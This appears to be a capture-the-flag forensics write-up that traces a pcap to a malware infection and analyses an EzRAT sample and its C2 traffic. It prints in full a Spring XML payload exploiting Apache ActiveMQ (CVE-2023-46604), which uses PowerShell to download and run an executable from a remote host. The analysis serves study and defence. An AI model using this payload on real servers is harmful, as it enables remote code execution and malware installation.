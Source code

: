 {{< image src="images/writeups/htb_ca_2024/pcap1_1.png" caption="Strange requests" >}}

I decided to extract those things out.

The first request was to get a file from this URL `http://10.10.10.21:8080/nBISC4YJKs7j4I`. The file's content look like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="WHgLtpJX" class="java.lang.ProcessBuilder" init-method="start">
  <constructor-arg>
    <list>
      <value>cmd.exe</value>
      <value>/c</value>
      <value><![CDATA[powershell Invoke-WebRequest 'http://10.10.10.21:8000/aQ4caZ.exe' -OutFile 'C:\temp\aQ4caZ.exe'; Start-Process 'c:\temp\aQ4caZ.exe']]></value>
    </list>
  </constructor-arg>
</bean>
</beans>
```

This is the RCE payload that exploit Apache ActiveMQ vulnerability (CVE-2023-46604). From this payload, threat actor continue downloading `aQ4caZ.exe` file from the same URL.

Here is the output of DIE:

{{< image src="images/writeups/htb_ca_2024/die1.png" caption="Malicious Executable" >}}

We've known this is a C# dotnet executable so let's move on to dnSpy for further analysis.

{{< image src="images/writeups/htb_ca_2024/ezrat.png" caption="EzRAT Sample" >}}

So this is an EzRAT sample, a C2 malware back in 2020: [Link](https://github.com/Exo-poulpe/EZRAT)

At this point, I knew we had to decrypt the traffic which was between the server and the victim.

You can see in this part of the code, the agent connect to the C2 server using socket with pre-defined IP and port in constants.

{{< image src="images/writeups/htb_ca_2024/code_rat1.png" caption="Get server's information" >}}

{{< image src="images/writeups/htb_ca_2024/code_rat2.png" caption="IP and port of the server" >}}

And that is the server's IP and port number. We can use a simple filter to the pcap and follow its stream to display the encrypted traffic:

{{< image src="images/writeups/htb_ca_2024/pcap1_2.png" caption="Encrypted traffic" >}}

Back to the malware, after it connected to the server, the agent will wait for server's commands in `RequestLoop()` method. 

{{< image src="images/writeups/htb_ca_2024/code_rat3.png" caption="Program's flow" >}}

{{< image src="images/writeups/htb_ca_2024/code_rat4.png" caption="Receive and wait for connection" >}}
